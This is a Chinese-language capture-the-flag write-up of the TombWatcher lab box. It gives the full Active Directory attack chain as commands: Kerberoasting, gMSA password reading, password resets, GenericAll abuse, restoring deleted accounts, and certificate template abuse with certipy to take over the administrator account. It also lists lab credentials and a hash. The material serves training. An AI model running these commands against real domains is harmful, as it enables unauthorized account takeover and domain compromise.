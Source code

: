 # 信息收集
先用nmap扫一下开放的端口信息
``` bash
nmap -sS -sV -O -p- 11.11.10.72
```
![image](https://github.com/user-attachments/assets/b48fa224-39a1-42c4-9413-c8969aafb796)

针对多个服务（如 LDAP 和 SSL 端口），Nmap 报告了 SSL 证书信息，表明通信是加密的，且证书的颁发者是域控主机 DC01.tombwatcher.htb。
证书有效期：有效期从 2024-11-16 至 2025-06-23。 Subject Alternative Name（SAN）字段中列出了目标主机的备用主机名。

## 可能的攻击向量
Kerberos: 目标机器可能是域控制器，Kerberos 服务可能是一个攻击目标，例如进行 Kerberoasting 攻击。

LDAP: 多个 LDAP 服务端口开放，可能提供进行目录服务枚举和身份验证攻击的机会。

SMB: 445 端口开放，可能是一个文件共享攻击的向量，SMB 漏洞（如 EternalBlue）可能适用。

Web 服务: Web 服务运行 IIS 10.0，可能有特定的漏洞可以利用，尤其是如果应用程序不安全。

# 尝试SMB
henry 为靶场提供的账户

``` bash
smbclient -L //10.10.11.72 -U 'henry' 
```
smbclient 将尝试连接到目标 IP 10.10.11.72，并使用 henry 用户进行身份验证。如果身份验证成功，它会列出该目标服务器上所有公开的共享文件夹和资源。

![image](https://github.com/user-attachments/assets/b7788a2c-c63c-4f62-b575-2fd9f3879f12)

![03b66082f51047430fd4e003612bd24a_](https://github.com/user-attachments/assets/7dbf980d-f871-4e20-bc7d-4672e3f54329)

进去发现都是空的，并没有可利用的敏感信息。

# 尝试kerbos
列出 SPN： 使用 impacket-GetUserSPNs 来列出目标域中所有的服务账户的 SPN 信息。

获取服务票证（TGS）：通过列出的 SPN 信息，提取这些服务的 Kerberos 服务票证。

离线破解：最终通过离线破解服务票证来获得服务账户的密码，进一步渗透系统。


``` bash
impacket-GetUserSPNs tombwatcher.htb/henry:H3nry_987TGV! -dc-ip 10.10.11.72
```
![3a6f3403c760d48f004f67c50a337ac0_](https://github.com/user-attachments/assets/497bf6d8-6435-40ae-9de7-e17085f99a72)
通过运行 impacket-GetUserSPNs，成功列出了与 HTTP/roastme 服务相关的 SPN，并发现该服务由 Alfred 用户提供。接下来通过 Kerberoasting 攻击获取该服务的 Kerberos 服务票证（TGS），并尝试暴力破解该票证，从而恢复 Alfred 用户的密码。


![6c923d180059a148b3358bc085a273d1_](https://github.com/user-attachments/assets/d1070b2f-eaf1-4f8e-8ef3-3e8dab2104a3)
![803bb5e5e3306d82de4204d8b19a410e_](https://github.com/user-attachments/assets/2e94fd51-1258-4b26-aeac-450bdf6e6e43)

这里成功破解出Alfred 密码为 baseketball

# 用bloodhound 分析域内主机
![f3d2c04d7f16d76135dcd3753b6059c4_](https://github.com/user-attachments/assets/329ce35b-339f-4982-aa27-007f6914f16e)

bloodhound 规划出了一条非常清晰的横向移动路径

现把alfred 通过add self 加入 infrastructure 组

``` bash
python3 bloodyAD.py --host 10.10.11.72 -u alfred -p 'basketball' -d tombwatcher.htb add groupMember infrastructure alfred
```

![f476a0c18b5120dd07023cdb369718f7_](https://github.com/user-attachments/assets/6ed65878-5c5c-464a-8a8f-6669ab2fea12)


通过 alfred 用户身份进行 LDAP 查询，查询 GMSA 密码信息

``` bash
nxc ldap 10.10.11.72 -u 'alfred' -p 'basketball' --gmsa
``` 

![95c7042f9e48644a3c74a72206d12a32_](https://github.com/user-attachments/assets/fcb7cc5e-2e01-4f09-8890-10d604d5919a)


结果显示 Infrastructure 组的成员有权限读取 ansible_dev$ 账户的密码，利用 Infrastructure 组的权限获取到敏感的服务账户密码。


这个组能改账户 sam的密码 我把sam账户的密码设置成了123456

``` bash
python3 bloodyAD.py --host 10.10.11.72 -d tombwatcher -u 'ansible_dev$' -p '4b21348ca4a9edff9689cdf75cbda439' set password sam 123456
``` 

![ee31a048aa92d99b5dfba089e299b9f2_](https://github.com/user-attachments/assets/35f959ea-a7a5-404e-897a-233483166ff1)



sam有改变用户john 所有者的权限，所以这里把jonh用户的所有者改为sam
![ad25c19934c060da4d6fdabee5a78ab0_](https://github.com/user-attachments/assets/72e25190-b237-4f51-b08d-7ad19ac8384d)

add genericAll john sam：这条命令为 sam 用户赋予了对 john 账户的 GenericAll 权限。GenericAll 权限使得 sam 可以对 john 用户执行几乎所有操作，例如修改用户信息、密码、权限等。
用新改的密码 登录john 账户 拿到userflag

![7d8013cc76364479bc9c79654dc443dc_2(1](https://github.com/user-attachments/assets/32ead44f-d8b8-4485-904d-3e4da2fa8911)



通过 Evil-WinRM 和 PowerShell 查询了 Active Directory 中所有已删除的用户账户。这些已删除账户可能包含敏感信息或者是权限较高的账户。通过 -IncludeDeletedObjects 参数，你能够看到这些已删除对象，并且可以考虑恢复它们来进行进一步的渗透或分析。

``` bash
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
``` 

![image](https://github.com/user-attachments/assets/33b3902c-9170-47f3-b1c4-ea987702c465)

这里发现了三个 账户 我尝试恢复第一个 并讲恢复的cert admin 密码改为123456
``` bash
Restore-ADObject -Identity 'CN=cert_admin\ADELL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'
``` 
![6dc90951e286f433321b6680eaf82719_](https://github.com/user-attachments/assets/6daede3a-fd0f-47ed-8b23-82886069e648)


certify-ad 工具查找证书模板时没有发现可利用的漏洞，这表明当前域控制器的证书模板可能没有安全问题。

``` bash
certify-ad find -u 'cert_admin' -p '123456' -dc-ip '10.10.11.72' --vulnerable --text --enabled
```

![cb774874de947dd1e847352b7c6df501_](https://github.com/user-attachments/assets/edb6f31f-a2b7-4b6b-9d99-9df6b8e8d739)

后面恢复了第三个账户，发现有 ECS15 可以利用

![089c82e1798ec600d968e4ab5d2f0cf7_](https://github.com/user-attachments/assets/80b7569f-ec37-4aca-892a-2b14d07a1e06)

通过 certipy 工具，成功请求并下载了 administrator@tombwatcher.htb 用户的证书。请求使用了 WebServer 证书模板
证书和私钥被保存在 administrator.pfx 文件中，之后可以将其导入到 Windows 或其他工具中使用，以便 模拟 用户 administrator 或在 Kerberos 身份验证中使用。

``` bash
certipy req -u 'cert_admin' -p '123456' -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb'
```


通过使用证书认证并连接到 LDAP，成功对目标域控制器（10.10.11.72）进行了认证，获得了对 administrator 用户的访问权限。

``` bash
certipy auth -pfx administrator.pfx -dc-ip '10.10.11.72' -ldap-shell
```

进入administrator 账户成功拿到root flag

![4f13417f2db277be24962aec1d853439_](https://github.com/user-attachments/assets/768c6886-5cfd-4d87-bfba-16fc108112cf)





